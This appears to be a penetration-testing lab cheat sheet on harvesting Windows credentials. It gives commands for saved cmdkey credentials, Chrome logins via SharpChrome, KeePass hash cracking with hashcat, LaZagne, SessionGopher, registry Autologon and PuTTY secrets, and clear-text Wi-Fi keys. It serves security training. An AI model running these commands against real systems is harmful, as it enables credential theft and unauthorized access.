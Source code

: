 
### Cmdkey Saved Credentials
```powershell
cmdkey /list
runas /savecred /user:inlanefreight\bob "COMMAND HERE"
```

### Browser Credentials (Chrome)
```powershell
.\SharpChrome.exe logins /unprotect
```

### Password Managers (KeePass)
```powershell
python2.7 keepass2john.py ILFREIGHT_Help_Desk.kdbx
hashcat -m 13400 keepass_hash /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt
```

### LaZagne
```powershell
.\lazagne.exe -h
.\lazagne.exe all
```

### SessionGopher
```powershell
Import-Module .\SessionGopher.ps1
Invoke-SessionGopher -Target WINLPE-SRV01
```

### Clear-Text Passwords in Registry (Autologon)
```powershell
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

### Clear-Text Passwords in Registry (PuTTY)
```powershell
reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions
reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\kali%20ssh
```

### Wifi Passwords
```powershell
netsh wlan show profile
netsh wlan show profile ilfreight_corp key=clear
```





**1. Cmdkey Saved Credentials**

- **List saved credentials:** `cmdkey /list`
- **Use saved credentials with runas:** `runas /savecred /user:inlanefreight\bob "COMMAND HERE"`

**2. Browser Credentials**

- **Retrieve Chrome credentials:** `.\SharpChrome.exe logins /unprotect`

**3. Password Managers**

- **Extract KeePass hash:** `python2.7 keepass2john.py ILFREIGHT_Help_Desk.kdbx`
- **Crack KeePass hash with Hashcat:** `hashcat -m 13400 keepass_hash /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt`

**4. Email**

- **Search emails for passwords (using MailSniper):** (Refer to MailSniper documentation for specific commands)

**5. LaZagne**

- **View LaZagne help:** `.\lazagne.exe -h`
- **Run all LaZagne modules:** `.\lazagne.exe all`

**6. SessionGopher**

- **Import SessionGopher module:** `Import-Module .\SessionGopher.ps1`
- **Run SessionGopher:** `Invoke-SessionGopher -Target WINLPE-SRV01`

**7. Clear-Text Passwords in Registry**

- **Windows Autologon:**
    - **Enumerate Autologon settings:** `reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"`
- **PuTTY:**
    - **Enumerate PuTTY sessions:** `reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions`
    - **Query specific session:** `reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\kali%20ssh`

**8. Wifi Passwords**

- **View saved wireless networks:** `netsh wlan show profile`
- **Retrieve saved wireless password:** `netsh wlan show profile ilfreight_corp key=clear`